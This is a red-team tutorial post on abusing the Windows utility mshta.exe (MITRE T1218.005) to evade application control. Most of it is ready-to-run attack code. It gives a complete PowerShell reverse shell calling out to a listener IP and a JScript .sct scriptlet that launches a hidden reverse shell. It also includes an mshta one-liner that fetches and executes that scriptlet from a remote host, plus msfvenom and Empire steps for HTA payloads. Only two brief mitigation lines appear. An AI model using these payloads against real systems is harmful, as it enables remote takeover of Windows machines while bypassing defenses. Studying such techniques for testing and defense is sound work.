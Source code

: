```yaml
---
title: MSHTA
date: 2022-04-01 05:49:33 +0800
categories: [Red Teaming, Defense Evasion]
tags: [redteam,defense-evasion, windows, mitre, mshta]     # TAG names should always be lowercase
---
```


# MITRE
- ID : `T1218.005`
- Tactic : `Defense Evasion`
- Platforms: `Windows`

# MSHTA
***Mshta.exe*** is a utility that executes Microsoft HTML Applications (HTA) files. Adversaries may abuse mshta.exe to proxy execution of malicious .hta files and Javascript or VBScript through a trusted Windows utility. Mshta.exe can be used to bypass application control solutions that do not account for its potential use.

# Exploitations

## Command Prompt

### Execute VBscript To Invoke Calculator

***Execute the below commmand to invoke calculator***
```batch
mshta vbscript:Execute("CreateObject(""Wscript.Shell"").Run ""calc.exe"":close")

```
*invoking calculator*
![mshtacalcvbs](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/mshvbacalc.png)

### Execute VBscript To Get Reverse Shell

To get a reverse shell, copy the below powershell script to your .ps1 file, update the ip address and port to your reverse shell listener's ip and port, start your listener i.e `nc -nlvp [port]`, then execute the below command to get a reverse shell.

*reverse shell in powershell*
```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.42.0.1',5000);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
Command

> `mshta vbscript:Execute("CreateObject(""Wscript.Shell"").Run ""powershell -w Hidden -file [path/to/your/file.ps1]"":close")`

*Executing rev.ps1 to get a reverse shell*
```batch
mshta vbscript:Execute("CreateObject(""Wscript.Shell"").Run ""powershell -w Hidden -file rev.ps1"":close")

```
![mshtarevshell](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/mshvbsrev.png)

***Getting reversh shell***
![mshtarevshell](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/kalimshtarev.png)

### Execute Javascript To Get Reverse Shell

To get a reverse shell, copy the below script to your .sct file, update the ip address and port to your reverse shell listener's ip and port, start your listener i.e `nc -nlvp [port]`, host .sct file on your server i.e `python3 -m http.server [port]` then execute the below command to get a reverse shell.

*content of exploit.sct*
```javascript

<?XML version="1.0"?>
<scriptlet>
  <!-- Reverse Shell -->

<public>
    <method name="Exec"></method>
</public>
<script language="JScript">
<![CDATA[

	function Exec()
	{
		var r = new ActiveXObject("WScript.Shell").Run('powershell -w Hidden -c "$client = New-Object System.Net.Sockets.TCPClient(\'170.170.6.136\',5000);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + \'PS \' + (pwd).Path + \'> \';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"');
	}

]]>
</script>

</scriptlet>

```

Command

> `mshta.exe javascript:a=(GetObject('script:[file_url]')).Exec();close();`

*executing mshta to get reverse shell*
```bash
mshta.exe javascript:a=(GetObject('script:http://170.170.6.136:90/exploit.sct')).Exec();close();

```
![mshtarev](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/cmdjswin.png)

*getting reversh shell*

![mshtarev](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/cmdjsmshta.png)

## Metasploit 

### Generating .hta Exploit With Msfvenom

> `msfvenom -p [payload] lhost=[ip] lport=[port] -f hta-psh -o [file_name.hta]`

```bash
┌──(cyberkhalid㉿kali)-[~/pentest/data]
└─$ msfvenom -p windows/shell_reverse_tcp lhost=192.168.43.1 lport=5000 -f hta-psh -o exploit.hta
To use retry middleware with Faraday v2.0+, install `faraday-retry` gem
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of hta-psh file: 7368 bytes
Saved as: exploit.hta
```

### Getting Command Shell 

*executing mshta in windows*

command

> `mshta [file_url]`

![mshtameta](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/metawin.png)

*setting metasploit listener, getting reverse shell*

![mshtameta](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/metasploitmshta.png)


## Powershell Empire

Use `uselistener` to setup your listener, with the listener setup, use `usestager windows/hta` to generate your payload, host your payload on your server, then execute the following command on target system `mshta [http://your_host/your_file.hta]`

### Setting Listener

![empirelistener](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/empirelistener.png)

### Using windows/hta Stager

![empirestager](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/empirestager.png)

### Getting Reverse Shell

![empireshell](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/empireshell.png)

# Mitigations

- Disable or Remove Mshta.exe.
- Block execution of mshta.exe.

# References

- [https://attack.mitre.org/techniques/T1218/005/](https://attack.mitre.org/techniques/T1218/005/)
- [https://docs.microsoft.com/en-us/previous-versions//ms536471(v=vs.85)?redirectedfrom=MSDN](https://docs.microsoft.com/en-us/previous-versions//ms536471(v=vs.85)?redirectedfrom=MSDN)
- [https://atomicredteam.io/defense-evasion/T1218.005/](https://atomicredteam.io/defense-evasion/T1218.005/)
- [https://attack.mitre.org/techniques/T1218/005/](https://attack.mitre.org/techniques/T1218/005/)
- [https://attack.mitre.org/mitigations/M1038/](https://attack.mitre.org/mitigations/M1038/)
- [https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/windows](https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/windows)
